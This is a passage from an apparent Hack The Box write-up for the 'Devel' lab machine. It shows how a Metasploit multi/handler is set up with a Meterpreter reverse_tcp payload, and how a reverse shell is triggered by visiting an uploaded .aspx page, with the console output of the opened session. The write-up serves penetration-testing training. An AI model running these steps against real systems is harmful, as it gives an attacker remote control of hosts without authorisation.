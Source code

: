 Start a listner in msf

We start msfconsole and use the multi/handler
```{r, engine='bash', count_lines}
msf > use exploit/multi/handler
```

We need to tell the handler what payload to use and what to listen on
```{r, engine='bash', count_lines}
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp

msf exploit(handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf exploit(handler) > set LHOST 10.10.15.155
LHOST => 10.10.15.155

[*] Exploit running as background job.

[*] Started reverse TCP handler on 10.10.15.155:4444 

```

We navigate to http://10.10.10.5/dotaplayer.aspx to spawn a reverse shell and this crops up on our terminal

![Alt test](https://github.com/netcatus/HTB-Writeups/blob/master/Devel/images/Spwaningmsfshell.PNG "spawnmsfshell")


```{r, engine='bash', count_lines}
[*] Sending stage (171583 bytes) to 10.10.10.5
[*] Meterpreter session 1 opened (10.10.15.155:4444 -> 10.10.10.5:49206) at 2017-10-15 09:53:30 +0530
[+] negotiating tlv encryption
[+] negotiated tlv encryption
[+] negotiated tlv encryption
```
